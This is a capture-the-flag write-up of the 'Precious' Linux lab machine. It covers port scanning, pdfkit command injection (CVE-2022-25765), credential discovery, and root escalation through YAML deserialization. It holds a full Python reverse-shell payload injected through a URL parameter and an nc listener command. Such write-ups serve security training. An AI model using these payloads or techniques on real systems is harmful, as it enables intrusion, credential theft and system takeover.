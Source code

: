 # Precious Machine Writeup - Easy

## Overview
Machine OS: Linux

Difficulty: Easy

![image](https://user-images.githubusercontent.com/99826925/212559935-cadec647-87aa-4757-9643-42e7d8ad8c7c.png)

## Enumeration

The first step I made, as usual, scan for open ports and look for anything suspicious.

For this reason, I used the following command:

└─$ nmap -sC -sV 10.10.11.189 

![1](https://user-images.githubusercontent.com/99826925/212559647-3abcf2f0-74bb-4740-8e52-83c328c07da5.PNG)

We can only find the ssh and web application running on both 22 and 80 ports.
Even after trying to fuzz for subdomains, we had nothing interesting.
So let's jump to our browser and have a look at the website.

## Look inside the webpage

![image](https://user-images.githubusercontent.com/99826925/212560106-7d104529-4f17-4761-b7e6-ffa8d3f1ec85.png)

It looks like this web page converts a website that a user provides to a PDF document.
I tried to see how it works. For this reason, I started a http server with python.

![image](https://user-images.githubusercontent.com/99826925/212560283-0bd57637-87ec-40fe-bc34-a68d259972e2.png)

![image](https://user-images.githubusercontent.com/99826925/212560366-f5162a10-90a1-4661-9c63-7296d525220f.png)

Our server is ready to be converted to PDF. I pasted the URL and the website generated a PDF File.

## Getting user access

Analyzing the PDF, I used Exiftool on the generated PDF to find that it's using "pdfkit v0.8.6".

I went to google to see if we can use a CVE for this version, to find that this version is vulnerable to Command Injection 'CVE-2022-25765'
An application could be vulnerable if it tries to render a URL that contains query string parameters with user input.

For more info visit : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

I edited the URL Provided to add a parameter and see if I can execute a system command to make it look like :
http://10.10.**.**/?name=%20'whoami'
The resulted PDF:

![image](https://user-images.githubusercontent.com/99826925/212561063-d0dd0cb4-d098-475a-ab2b-1cc97690c4d6.png)

So it's working ! I know I can inject system commands, so I generated a reverse shell using https://www.revshells.com/ and pasted it in my URL's parameter:

```http://10.10.**.**/?name='python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.**.**",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")''```
and on my side, I had a NetCat listener :

└─$ nc -lvnp 4444

![image](https://user-images.githubusercontent.com/99826925/212561720-26b03023-7614-4474-9b9c-6cc220c4156f.png)

![image](https://user-images.githubusercontent.com/99826925/212572746-1372f7a7-58ee-4146-823a-2a3dcdb9dbfd.png)

Nice ! we got our hands on the shell.

Listing the home directory, I found there is a user called 'henry'. And after spending some time looking in the files and folders, I was able to find henry's credentials in .bundle/config file.

![image](https://user-images.githubusercontent.com/99826925/212561910-77201647-e539-4cde-9b04-b00ab7c5a0c9.png)

Using those credentials, I was able to SSH through henry's user and get the user flag.

![image](https://user-images.githubusercontent.com/99826925/212562543-bc07389d-79b5-4ae6-aa04-49e75a9cef24.png)

## Privilege Escalation

The first step I usually do, is to run ```sudo -l``` to see if we have any files we can run as root.

![image](https://user-images.githubusercontent.com/99826925/212562593-a0d02d64-1bf3-464e-9c00-c500adffb2ca.png)

looking inside the update_dependencies.rb, we notice that it is calling ```yaml.load()``` function, which seems to be vulnerable to Blind Remote Code Execution through YAML Deserialization

For more info : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

![image](https://user-images.githubusercontent.com/99826925/212562617-077c08ad-c505-454c-950f-f675b6eeb011.png)

I used the script provided in the link above to make the dependencies.yml file and made a system command in the git_set param and inserted ```whoami```:

![image](https://user-images.githubusercontent.com/99826925/212562671-45a76150-12ab-4b7d-bee8-9e2031c5ed09.png)

Let's see what happens when we run the ruby file :

![image](https://user-images.githubusercontent.com/99826925/212563443-7b0cf5af-0014-425a-86db-8c8eedf212bc.png)

the server is executing what we provide in the git_set param !
Now let’s see if we can change the permissions of the /bin/bash directory so that we can elevate our privileges:

![image](https://user-images.githubusercontent.com/99826925/212563592-78f01a26-1168-4f73-ba78-1198cc2be6de.png)

Running again:

![image](https://user-images.githubusercontent.com/99826925/212563640-058a8393-1e14-4a69-8254-a18757efbaf6.png)

let's see now if we could put our hands on the root user :

![image](https://user-images.githubusercontent.com/99826925/212563672-88408adc-24be-497c-bded-b75fdbfc4ede.png)

It worked ! now let's claim our prize and have that root flag!

![image](https://user-images.githubusercontent.com/99826925/212563698-6e83d448-2e23-4f2f-a9f8-d5d0c1a52210.png)


 




